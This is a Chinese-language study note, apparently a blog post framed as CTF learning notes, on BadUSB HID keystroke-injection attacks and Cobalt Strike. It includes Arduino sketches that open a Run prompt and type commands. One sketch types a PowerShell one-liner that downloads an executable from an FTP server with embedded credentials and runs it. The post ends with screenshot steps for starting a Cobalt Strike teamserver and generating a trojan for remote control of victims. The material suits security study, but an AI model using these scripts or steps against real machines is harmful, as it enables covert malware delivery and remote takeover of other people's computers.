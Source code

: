 ```yaml
---
title: CTF学习笔记（大学篇）02 —— BadUSB & CobeltStrike
date: 2022-04-16 08:22:03
tags: CTF
categories: CTF
---
```


### HID设备

人类接口设备，就是直接与人类进行交互的设备（鼠标、键盘之类的）

### HID攻击

插入一定的设备，设备有一定的标识符（例如Keyboard、Mouse），插入后就可以运行烧录在BadUSB上的指令来输入恶意代码，把木马植入计算机之中。（伪造用户击键行为等）

### USB HID攻击 VS 摆渡攻击

前者运用的是伪造的HID设备执行恶意代码，摆渡攻击是在U盘等设备放置木马程序，隐藏在存储介质之中。

### USB HID攻击特点

- 隐蔽性强
- 攻击范围广
- 权限高

攻击范围是只要能够支持USB HID接口协议的设备均可用。

### 相关编程语句

#### 默认内容

```C++
void setup() {

}

void loop() {

}
```

- `void setup()`函数内的代码只运行一次
- `void loop()`函数内的代码会一直循环运行

#### 运行cmd并打开记事本，输入相关内容

```c++
#include<Keyboard.h>
void setup() {
  // put your setup code here, to run once:
Keyboard.begin();
delay(1000);

Keyboard.press(KEY_LEFT_GUI);//win键
delay(500);
Keyboard.press('r');//r键
delay(500);
Keyboard.release(KEY_LEFT_GUI);//win键释放
Keyboard.release('r');//r键释放

Keyboard.press(KEY_CAPS_LOCK);//若目标机开启大小写，关掉即可
Keyboard.release(KEY_CAPS_LOCK);//若目标机没有开启，也不影响
delay(500);
Keyboard.println("cmd");
Keyboard.press(KEY_RETURN);
Keyboard.release(KEY_RETURN);//目标机开启中文或开启大小写键
delay(500);

//弹出记事本
Keyboard.println("notepad.exe");
delay(500);
delay(500);//可防止丢帧
Keyboard.println("you are hacked!!!");
Keyboard.println("you are hacked!!!");
Keyboard.println("you are hacked!!!");
Keyboard.press(KEY_CAPS_LOCK);//若目标机开启大小写，关掉即可
Keyboard.release(KEY_CAPS_LOCK);
Keyboard.end();//结束键盘通讯
}

void loop() {
  // put your main code here, to run repeatedly:
}
```

- `Keyboard.press`就表示按下按键，用`Keyboard.release`松开
- `KEY_LEFT_GUI`表示左边的Win按键
- `Keyboard.begin()`开启键盘通讯，`Keyboard.end()`来表示结束
- 因为插入设备的时候目标主机可能处于中文输入法，所以用`Keyboard.press(KEY_CAPS_LOCK)`打开大小写锁定，然后来输入命令，这样输入的就是英文字符而不受到中文输入法的限制了，输入完了以后记得用`Keyboard.release(KEY_CAPS_LOCK)`松开
- `Keyboard.begin()`下面的`delay(1000)`：一般来说，设备插入后计算机需要启动驱动，在这里加入延迟就是为了给计算机启动驱动的时间（甚至是安装驱动，diss一下win7以下的那堆），当然一般是3秒5秒，1秒还是太短了
- 按键的定义如下（键盘按键+编码）

```c++
///Alt和Ctrl和Shift
#define KEY_LEFT_CTRL   0x80
#define KEY_LEFT_SHIFT    0x81
#define KEY_LEFT_ALT    0x82
#define KEY_LEFT_GUI    0x83
#define KEY_RIGHT_CTRL    0x84
#define KEY_RIGHT_SHIFT   0x85
#define KEY_RIGHT_ALT   0x86
#define KEY_RIGHT_GUI   0x87
///方向键系列
#define KEY_UP_ARROW    0xDA
#define KEY_DOWN_ARROW    0xD9
#define KEY_LEFT_ARROW    0xD8
#define KEY_RIGHT_ARROW   0xD7
//特殊键位，其中RETURN就是回车
#define KEY_BACKSPACE   0xB2
#define KEY_TAB       0xB3
#define KEY_RETURN      0xB0
#define KEY_ESC       0xB1
///特殊键位，我比较常用的是DELETE
#define KEY_INSERT      0xD1
#define KEY_DELETE      0xD4
#define KEY_PAGE_UP     0xD3
#define KEY_PAGE_DOWN   0xD6
#define KEY_HOME      0xD2
#define KEY_END       0xD5
#define KEY_CAPS_LOCK   0xC1
///F区的这些那些
#define KEY_F1        0xC2
#define KEY_F2        0xC3
#define KEY_F3        0xC4
#define KEY_F4        0xC5
#define KEY_F5        0xC6
#define KEY_F6        0xC7
#define KEY_F7        0xC8
#define KEY_F8        0xC9
#define KEY_F9        0xCA
#define KEY_F10       0xCB
#define KEY_F11       0xCC
#define KEY_F12       0xCD
#define KEY_F13       0xF0
#define KEY_F14       0xF1
#define KEY_F15       0xF2
#define KEY_F16       0xF3
#define KEY_F17       0xF4
#define KEY_F18       0xF5
#define KEY_F19       0xF6
#define KEY_F20       0xF7
#define KEY_F21       0xF8
#define KEY_F22       0xF9
#define KEY_F23       0xFA
#define KEY_F24       0xFB
```

#### 利用FTP服务器存储病毒文件，利用BadUSB执行下载命令后运行

```C++
#include "Keyboard.h"

void setup() 
{
  Keyboard.begin();
  delay(2000);
  Keyboard.press(KEY_LEFT_GUI);//win键 
  delay(500); 
  Keyboard.press('r');//r键 
  delay(500); 
  Keyboard.release(KEY_LEFT_GUI); //win键 释放
  Keyboard.release('r'); //r键 释放
  delay(500);
  Keyboard.println("powershell $p=new-object system.net.webclient;$p.downloadfile('FTP://admin:123456@169.254.202.247/calc.exe','F:\\calc.exe');START F:\\calc.exe");
  Keyboard.end();//结束键盘通讯 
}

void loop() 
{
}

```

- FTP协议写法：`ftp://<username>:<password>@<address>:<port>`，可以通过这种方式将用户名和命令写入而无需弹出验证窗口

### CobaltStrike用法

首先需要打开Teamserver

![](https://gamernotitle.coding.net/p/assets/d/assets/git/raw/master/img/CTF-in-College-2/管理员__获取管理员权限 - 20220416-164025.png)

然后再打开CS，连接Teamserver

![](https://gamernotitle.coding.net/p/assets/d/assets/git/raw/master/img/CTF-in-College-2/Connect - 20220416-164031.png)

接着就会弹出主界面

![](https://gamernotitle.coding.net/p/assets/d/assets/git/raw/master/img/CTF-in-College-2/Cobalt_Strike - 20220416-164039.png)

然后我们生成一个木马程序，这个程序运行后就会在主界面显示肉鸡，可以进行远程操作等操作

![](https://gamernotitle.coding.net/p/assets/d/assets/git/raw/master/img/CTF-in-College-2/Windows_Executable - 20220416-164049.png)

![](https://gamernotitle.coding.net/p/assets/d/assets/git/raw/master/img/CTF-in-College-2/Choose_a_payload_to_stage - 20220416-164045.png)

